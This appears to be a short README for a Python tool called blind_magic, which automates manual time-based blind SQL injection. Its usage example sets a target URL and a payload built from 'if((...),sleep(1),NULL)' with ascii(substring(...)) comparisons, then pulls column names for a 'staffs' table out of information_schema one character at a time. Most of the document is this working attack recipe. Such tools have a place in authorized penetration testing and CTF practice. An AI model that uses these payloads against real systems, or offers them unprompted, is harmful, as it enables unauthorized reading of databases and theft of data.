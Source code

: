 # blind_magic 0.1.2  
Manual Blind SQL Injection  
  
Some trick:  
I supply to you 5 loop variables l1 to l5 {l1} {l2} {l3} {l4} {l5}  
  
Blind query statament:  
{CONDITION_QUERY}  
{QUERY}  
{OPERATOR}  
{CHAR}  
  
example:  
b = Blind_magic()
b.l(1,0,0,0,0,10,3,0,0,0)  
b.url = "http://10.0.42.224/?q="  
b.base_query = "if(({CONDITION_QUERY}),sleep(1),NULL)"  
b.condition_query = "ascii(substring(({QUERY}),{l1},1)){OPERATOR}{CHAR}"  
b.query = "Select column_name from information_schema.columns where table_name='staffs' limit {l2},1"
b.run()
print b.result  
